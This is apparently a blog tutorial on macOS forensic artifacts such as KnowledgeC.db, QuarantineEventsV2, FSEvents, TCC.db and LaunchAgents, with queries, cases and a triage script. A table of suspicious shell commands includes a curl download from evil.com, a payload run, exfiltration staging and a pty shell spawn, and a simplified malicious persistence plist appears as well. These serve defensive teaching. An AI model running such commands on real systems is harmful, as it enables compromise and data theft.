

Most people assume a Mac is a locked-down black box. Forensically, it is the opposite. macOS is built on a Unix core and leaves a rich trail of SQLite databases, binary logs, and property list files that tell investigators exactly what happened, when, and sometimes even why.

This post walks through the key artifacts — what they are, where they live, what situations they are used in, and real cases where they made the difference.

---

## Why Mac Forensics Is Different

Windows has the Registry. Linux has flat log files. macOS has something of both, plus its own proprietary formats. The three big reasons Mac forensics requires its own approach:

1. **APFS** — Apple's modern filesystem stores data in containers, not simple partitions. You must acquire the entire container to capture snapshots, which are critical for timeline work.
2. **Binary formats everywhere** — plists, FSEvents, and Unified Logs are all binary. You cannot just `cat` them.
3. **Privacy controls (TCC)** — The operating system enforces access controls that affect both the attacker and the investigator. A piece of malware *and* your forensic tool both need permissions to reach certain data.

> Always acquire a full container-level image with a write blocker. Never plug in a suspect Mac and start browsing — every mouse click modifies access timestamps.
{: .prompt-danger }

---

## The Artifact Map

A quick orientation before diving in:

| Artifact | Location | What It Answers |
|:---|:---|:---|
| **KnowledgeC.db** | `~/Library/Application Support/Knowledge/knowledgeC.db` | What was the user doing and when? |
| **QuarantineEventsV2** | `~/Library/Preferences/com.apple.LaunchServices.QuarantineEventsV2` | Where did that file come from? |
| **FSEvents** | `/.fseventsd/` (root of every volume) | What files were created, moved, or deleted? |
| **Unified Logs** | `/var/db/diagnostics/` | What did the system do at the micro level? |
| **LaunchAgents / LaunchDaemons** | `~/Library/LaunchAgents/`, `/Library/LaunchDaemons/` | What is set to auto-run? |
| **TCC.db** | `~/Library/Application Support/com.apple.TCC/TCC.db` | What was the app allowed to access? |
| **Spotlight** | `/.Spotlight-V100/` | What file metadata survived deletion? |
| **Plist files** | `~/Library/Preferences/` | What did the user configure? |
| **Shell History** | `~/.zsh_history`, `~/.bash_history` | What did they type in Terminal? |

---

## 1. KnowledgeC.db — The Pattern-of-Life Database

### What It Is

`KnowledgeC.db` is a SQLite database maintained by macOS's CoreDuet framework. Think of it as a detailed diary of system and user activity — app launches, durations, battery state, screen lock/unlock events, and even some browsing activity.

**Location:**
```
~/Library/Application Support/Knowledge/knowledgeC.db
```

> In macOS 13 Ventura and later, Apple began migrating this data into the **Biome** framework under `/private/var/db/biome/`. Both locations are relevant depending on the macOS version.
{: .prompt-warning }

### What You Find Inside

Query it with any SQLite browser or the APOLLO tool by Sarah Edwards:

```sql
SELECT
    ZOBJECT.ZSTREAMNAME,
    ZOBJECT.ZVALUESTRING,
    datetime(ZOBJECT.ZSTARTDATE + 978307200, 'unixepoch') AS start_time,
    datetime(ZOBJECT.ZENDDATE   + 978307200, 'unixepoch') AS end_time
FROM ZOBJECT
WHERE ZSTREAMNAME = '/app/usage'
ORDER BY ZSTARTDATE DESC;
```

Key streams to check:

| Stream | Contains |
|:---|:---|
| `/app/usage` | Every app that ran, start time, duration |
| `/device/isLocked` | Screen lock and unlock events |
| `/safari/history` | Browsing sessions (older macOS) |
| `/device/batteryPercentage` | Device connected/disconnected from power |

### When Investigators Use It

**Situation: Insider threat — did the suspect access sensitive files on a Saturday?**

An employee is accused of exfiltrating company documents before resigning. Their Mac shows no logins in IT logs over the weekend. `knowledgeC.db` shows `/app/usage` entries for Finder and an archiving application running from 11 PM to 2 AM on Saturday — direct contradiction to the "I wasn't on my computer" alibi.

**Situation: Malware attribution — was the user present when malware ran?**

`/device/isLocked` shows the screen was locked at 3 AM. But Unified Logs show a suspicious process making network connections at 3:07 AM. The user was asleep. The malware was operating autonomously — the machine was compromised, not the user actively facilitating it.

---

## 2. QuarantineEventsV2 — Where Did That File Come From?

### What It Is

Every file that arrives from the internet — via Safari, Chrome, Mail, AirDrop, or Slack — gets logged here. macOS also writes a `com.apple.quarantine` extended attribute directly on the file itself. The database is the central record for all of these events.

**Location:**
```
~/Library/Preferences/com.apple.LaunchServices.QuarantineEventsV2
```

### What You Find Inside

```sql
SELECT
    LSQuarantineEventIdentifier,
    LSQuarantineTimeStamp,
    LSQuarantineAgentName,
    LSQuarantineDataURLString,
    LSQuarantineOriginURLString
FROM LSQuarantineEvent
ORDER BY LSQuarantineTimeStamp DESC;
```

| Field | Meaning |
|:---|:---|
| `LSQuarantineAgentName` | The app that downloaded it (Safari, Chrome, etc.) |
| `LSQuarantineDataURLString` | The direct download URL |
| `LSQuarantineOriginURLString` | The referring page — often the phishing page |
| `LSQuarantineTimeStamp` | When the file landed |

### When Investigators Use It

**Situation: Malware infection origin — how did the implant get on the machine?**

A corporate Mac is found running a suspicious process. QuarantineEventsV2 shows an entry three days earlier: `LSQuarantineAgentName = "Safari"`, `LSQuarantineOriginURLString = "hxxp://fake-adobe-update[.]com/AdobeFlashInstaller.dmg"`. The infection vector is now documented with a timestamp and a URL.

**Situation: Phishing investigation — did the user click the link?**

Email security says the phishing mail was delivered. The question is whether the user opened the attachment. A matching entry in QuarantineEventsV2 with `LSQuarantineAgentName = "Mail"` and a timestamp matching the email delivery window is near-definitive proof the attachment was opened and extracted.

> Even if the malicious file is deleted, the QuarantineEventsV2 record often remains. The database only purges old entries when it reaches its internal size limit.
{: .prompt-tip }

---

## 3. FSEvents — The File System's Memory

### What It Is

FSEvents is macOS's filesystem journaling service. It records every file creation, deletion, modification, and rename on every volume — and it keeps these records even after the files themselves have been deleted.

**Location:**
```
/.fseventsd/              ← root of every APFS volume
```

The files are compressed binary blobs. You need a parser — `mac_apt` handles this well.

### What You Find Inside

Each event record contains:
- The **full file path**
- **Flags** describing the operation (create, remove, rename, modified, is-directory, etc.)
- An **event ID** that increases monotonically — useful for ordering events even when timestamps are unavailable

### When Investigators Use It

**Situation: Deleted malware — prove the file existed**

An attacker deleted their dropper from `/private/tmp/` before the machine was seized. The file is gone. But FSEvents shows an entry: the file was created at 02:14:37, modified at 02:14:39, and then removed at 03:58:12. The three-event sequence is a near-perfect record of the payload's lifecycle — even though the file itself is gone.

**Situation: Lateral movement from a USB drive**

A suspect claims they never copied anything to a USB stick. FSEvents on the USB volume (external drives have their own `.fseventsd` directory) shows exactly which files were written to it, with full paths from the source Mac's filesystem embedded in the log — because FSEvents records the source path during copy operations.

> Forensically examine external drives for their own `.fseventsd` directory. It records what was copied *onto* the drive, which the host Mac's FSEvents does not fully capture.
{: .prompt-tip }

---

## 4. Unified Logs — The System's Black Box

### What It Is

Introduced in macOS Sierra (10.12), the Unified Logging System replaced hundreds of scattered `.log` files with a single binary format. It captures events from the kernel, frameworks, and applications at a granular level. The logs roll over based on space, not time — older entries are purged.

**Location:**
```
/var/db/diagnostics/      ← active .tracev3 log files
/var/db/uuidtext/         ← string metadata for decoding
```

On a **live system**, read with:
```bash
log show --predicate 'eventMessage contains "your-search-term"' --info --last 24h
```

On an **offline image**, you need a tool that can parse `.tracev3` files against the `uuidtext` catalog — `UnifiedLogReader` or Magnet AXIOM.

### When Investigators Use It

**Situation: AirDrop — who sent what to whom?**

AirDrop transfers are not explicitly logged in any user-facing log. But the Unified Log captures the AWDL (Apple Wireless Direct Link) framework events during every AirDrop session, including the device name and whether the transfer succeeded. This has been used in criminal cases to place a suspect's device at a scene.

**Situation: Process execution timing**

You found a malicious LaunchAgent. You know *what* ran. But *when* did it first run? The Unified Log contains `com.apple.launchd` entries for every daemon and agent start — with timestamps accurate to microseconds.

```bash
log show --predicate 'subsystem == "com.apple.launchd"' --info | grep "com.attacker.persistence"
```

---

## 5. LaunchAgents and LaunchDaemons — The Persistence Layer

### What They Are

macOS uses `.plist` files in specific directories to define programs that start automatically. This is the macOS equivalent of Windows' Run registry key and startup folder — and it is where virtually every macOS malware establishes persistence.

| Type | Location | Runs As |
|:---|:---|:---|
| **User LaunchAgent** | `~/Library/LaunchAgents/` | The logged-in user |
| **System LaunchAgent** | `/Library/LaunchAgents/` | All users |
| **System LaunchDaemon** | `/Library/LaunchDaemons/` | root |

### What a Malicious Entry Looks Like

A real malicious LaunchAgent plist (simplified from OSX.WindTail):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN"
  "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>com.apple.softwareupdate.helper</string>
    <key>ProgramArguments</key>
    <array>
        <string>/Users/victim/Library/.hidden/payload</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
    <key>KeepAlive</key>
    <true/>
</dict>
</plist>
```

**Red flags in this file:**
- The `Label` mimics a legitimate Apple service (`com.apple.softwareupdate`)
- The binary path points to a **hidden directory** inside `~/Library/`
- `KeepAlive = true` means it restarts if killed

### When Investigators Use It

**Situation: Confirming malware persistence — when was the backdoor installed?**

Check the `ctime` (metadata change time) on the plist file. Unlike `mtime` which an attacker can forge with `touch`, `ctime` updates whenever the inode metadata changes and cannot be set with standard user tools. Cross-reference the `ctime` of the LaunchAgent plist with `knowledgeC.db` app usage — did the installer run right before this timestamp?

**Real case — XCSSET (2020–present):** XCSSET installed a LaunchAgent in `~/Library/LaunchAgents/` that pointed to a hidden payload in `~/Library/Application Scripts/`. The plist used the label `com.apple.security.XXX` to blend in. Investigators identified it by diffing the LaunchAgents directory against a clean macOS baseline.

---

## 6. TCC.db — What Was the App Allowed to Touch?

### What It Is

TCC (Transparency, Consent, and Control) is the privacy permission system. Every time a user grants or denies an app access to the camera, microphone, contacts, desktop, downloads, or Full Disk Access — that decision is recorded here in a SQLite database.

**Location:**
```
~/Library/Application Support/com.apple.TCC/TCC.db     ← user-level
/Library/Application Support/com.apple.TCC/TCC.db      ← system-level
```

### What You Find Inside

```sql
SELECT
    client,
    service,
    auth_value,
    last_modified
FROM access
ORDER BY last_modified DESC;
```

| Field | Meaning |
|:---|:---|
| `client` | The app bundle ID or path that was granted/denied |
| `service` | The permission type (e.g., `kTCCServiceSystemPolicyAllFiles`) |
| `auth_value` | 0 = denied, 2 = allowed, 3 = always-allow |
| `last_modified` | Unix timestamp of the permission decision |

`kTCCServiceSystemPolicyAllFiles` = **Full Disk Access** — if a suspicious process has this, it could read anything on the system, including the `TCC.db` itself.

### When Investigators Use It

**Situation: Did the malware bypass privacy protections?**

Several CVEs (including CVE-2021-30713 and CVE-2021-30892) allowed malware to bypass TCC entirely. `TCC.db` can show whether a process was granted access through a legitimate user prompt or via a known bypass — by cross-referencing with the Unified Log entries for the `tccd` (TCC daemon) around the same timestamp.

**Situation: Spyware investigation — was the microphone or camera accessed?**

`kTCCServiceMicrophone` and `kTCCServiceCamera` entries in `TCC.db` tell you which apps were ever granted access. Correlate with `knowledgeC.db` usage data to see *when* those apps ran.

---

## 7. Spotlight Metadata — Evidence That Outlives the File

### What It Is

Spotlight indexes every file on the system to enable fast search. The index includes file name, path, creator, type, and content snippets. Crucially — Spotlight often **retains metadata for deleted files** until the index is rebuilt.

**Location:**
```
/.Spotlight-V100/         ← root of every volume
```

The index format is proprietary. Parse it with `mdimport` on a live system or with `mac_apt` on an image.

### When Investigators Use It

**Situation: Prove a document existed, even though it was deleted**

A suspect deleted a file containing stolen IP before surrendering their laptop. The Spotlight index still contained the file's metadata — name, path, and partial text content — because the index had not been fully rebuilt since deletion. This metadata was used as corroborating evidence.

**Situation: Reconstruct a deleted file's name and path**

Even when the file's inode is gone and FSEvents has rolled over, Spotlight's index can preserve the original file path and filename, giving investigators a target to search for in cloud sync logs or email records.

---

## 8. Plist Files — macOS's Registry Equivalent

### What They Are

Property list files are configuration files used by every macOS app and system service. They store preferences, recent items, history, and state. Binary plists look like garbage in a text editor — convert them first:

```bash
plutil -p ~/Library/Preferences/com.apple.finder.plist
```

### High-Value Plists for Forensics

| Plist File | What It Contains |
|:---|:---|
| `com.apple.finder.plist` | Recent folders, last window locations |
| `com.apple.recentitems.plist` | Recent documents per application |
| `com.apple.sidebarlists.plist` | Sidebar shortcuts — hints at connected drives |
| `com.apple.safari.plist` | Safari settings, last URL, search history |
| `com.apple.dock.plist` | Dock contents — recently added/removed apps |

### When Investigators Use It

**Situation: What external drives were connected?**

`com.apple.sidebarlists.plist` records sidebar items including external drives the user pinned. This is not a connection log, but combined with FSEvents and system Unified Logs for USB mount events, it can confirm a device was used.

**Situation: What files did the user open recently?**

The `LSSharedFileList` plists (one per app) maintain lists of recently opened files per application. Even if a file was deleted, its path remains in the plist until the list is rotated out — giving you the filename, path, and approximate timeframe.

---

## 9. Shell History — What They Typed

### What It Is

macOS switched from bash to zsh as the default shell in Catalina (10.15). Both maintain command history files.

**Locations:**
```
~/.zsh_history           ← default since macOS Catalina
~/.bash_history          ← older macOS or users who switched back
~/.bash_sessions/        ← session-based history (Mavericks+)
```

### What Stands Out

| Suspicious Command | What It Suggests |
|:---|:---|
| `curl -O http://evil.com/payload` | Downloading a file from attacker infrastructure |
| `chmod +x /tmp/payload && /tmp/payload` | Staging and running a payload |
| `zip -r /tmp/stolen.zip ~/Documents` | Data staging for exfiltration |
| `python3 -c 'import pty; pty.spawn("/bin/bash")'` | Spawning an interactive shell (common in post-exploit) |
| `history -c` or `rm ~/.zsh_history` | Anti-forensics — trying to erase tracks |
| `launchctl load ~/Library/LaunchAgents/evil.plist` | Manually loading a persistence mechanism |

> `history -c` clears the in-memory session history. The file on disk is untouched unless the user also deletes it. The Unified Log will show the `zsh` process executing even if the history file is empty.
{: .prompt-tip }

---

## Real Cases — Where These Artifacts Were Used

### Case 1: OSX.WindTail (WindShift APT — 2018)

**What happened:** A state-sponsored APT group (attributed to the Middle East) targeted government officials with spear-phishing emails linking to malicious `.zip` files.

**Artifacts that told the story:**
- **QuarantineEventsV2** — recorded the `.zip` file arriving via Safari from the phishing domain, with the referring URL (the spear-phishing email link)
- **FSEvents** — showed the payload being extracted from the zip and copied to `~/Library/.hidden/`
- **LaunchAgents** — the persistence plist `com.apple.questhelper.plist` was found, pointing to the hidden binary
- **Unified Logs** — confirmed the launchd daemon loading the plist at startup, with microsecond-accurate timestamps

### Case 2: XCSSET Malware (2020 — ongoing)

**What happened:** XCSSET spread through infected Xcode projects. When a developer compiled the project, the malware deployed to their Mac, then attempted to steal browser cookies, Notes, and cryptocurrency wallets.

**Artifacts that told the story:**
- **KnowledgeC.db** — showed the Xcode process running for an unusually long build time, followed immediately by new process activity from a previously unseen binary path
- **TCC.db** — the malware requested `kTCCServiceSystemPolicyAllFiles` (Full Disk Access) using a social engineering prompt
- **FSEvents** — revealed files being written to `~/Library/Application Scripts/`, a legitimate-looking path that evades casual inspection
- **QuarantineEventsV2** — *absence* of an entry proved the malware was not downloaded from the internet but arrived through the Xcode project supply chain

### Case 3: Corporate Insider Threat (Generalized DFIR Scenario)

**What happened:** An engineer downloaded a competitor's job offer. A week later, 40 GB of source code was transferred to an external drive.

**Artifacts that told the story:**
- **KnowledgeC.db** — showed the engineer's work pattern shifted: app usage spiked at 11 PM over several nights, specifically Finder and a compression app
- **FSEvents on the USB volume** — recorded the source paths of files copied to the drive, including repository directory names
- **QuarantineEventsV2** — showed a cloud sync app downloading a `.dmg` file from a personal Dropbox account during work hours
- **Shell History** — contained `zip -r ~/Desktop/source.zip ~/Projects/` commands that preceded the USB transfer

---

## Investigation Flow



---

## 10-Minute Mac Triage

If you have a live Mac (with proper authorization), this sequence gives an immediate picture:

```bash
# Who is here?
dscl . list /Users | grep -v "_"

# What is set to auto-run?
ls -la ~/Library/LaunchAgents/ /Library/LaunchAgents/ /Library/LaunchDaemons/

# Any suspicious binaries in hidden Library subdirs?
find ~/Library -name ".*" -type d 2>/dev/null

# What apps ran recently and for how long?
sqlite3 ~/Library/Application\ Support/Knowledge/knowledgeC.db \
  "SELECT ZVALUESTRING, datetime(ZSTARTDATE+978307200,'unixepoch') \
   FROM ZOBJECT WHERE ZSTREAMNAME='/app/usage' ORDER BY ZSTARTDATE DESC LIMIT 30;"

# What files came from the internet?
sqlite3 ~/Library/Preferences/com.apple.LaunchServices.QuarantineEventsV2 \
  "SELECT LSQuarantineDataURLString, LSQuarantineAgentName, datetime(LSQuarantineTimeStamp+978307200,'unixepoch') \
   FROM LSQuarantineEvent ORDER BY LSQuarantineTimeStamp DESC LIMIT 20;"

# What permissions does each app have?
sqlite3 ~/Library/Application\ Support/com.apple.TCC/TCC.db \
  "SELECT client, service, auth_value FROM access WHERE auth_value = 2;"

# Recent Terminal commands
tail -100 ~/.zsh_history

# Unified log — last hour of launchd activity
log show --predicate 'subsystem == "com.apple.launchd"' --last 1h --info
```

---

## Quick Reference

| Artifact | Path | Key Question |
|:---|:---|:---|
| KnowledgeC.db | `~/Library/Application Support/Knowledge/knowledgeC.db` | What app ran, when, for how long? |
| Biome (macOS 13+) | `/private/var/db/biome/` | Same as KnowledgeC on newer systems |
| QuarantineEventsV2 | `~/Library/Preferences/com.apple.LaunchServices.QuarantineEventsV2` | Where did the file come from? |
| FSEvents | `/.fseventsd/` | What files were created or deleted? |
| Unified Logs | `/var/db/diagnostics/` | What did the system do at the micro level? |
| LaunchAgents | `~/Library/LaunchAgents/` | What runs on login? |
| LaunchDaemons | `/Library/LaunchDaemons/` | What runs as root on boot? |
| TCC.db (user) | `~/Library/Application Support/com.apple.TCC/TCC.db` | What could the app access? |
| Spotlight | `/.Spotlight-V100/` | What files existed, including deleted ones? |
| Plist — Recent Items | `~/Library/Application Support/` | What did the user open? |
| Zsh/Bash History | `~/.zsh_history`, `~/.bash_history` | What did they type? |

---

## Tools

| Tool | Purpose |
|:---|:---|
| **mac_apt** | Open-source parser for most macOS artifacts — outputs CSV and SQLite |
| **APOLLO** | Sarah Edwards' tool for parsing KnowledgeC.db and pattern-of-life artifacts |
| **UnifiedLogReader** | Parse `.tracev3` files from offline images |
| **DB Browser for SQLite** | Manually inspect any SQLite artifact |
| **Magnet AXIOM** | Commercial suite with integrated macOS artifact parsing |
| **Cellebrite Inspector** | Commercial — strong APFS and plist support |
| **Arsenal Image Mounter** | Write-blocked mounting of DMG / raw images on Windows |
| **plutil** | Built-in macOS tool to convert binary plists to XML |
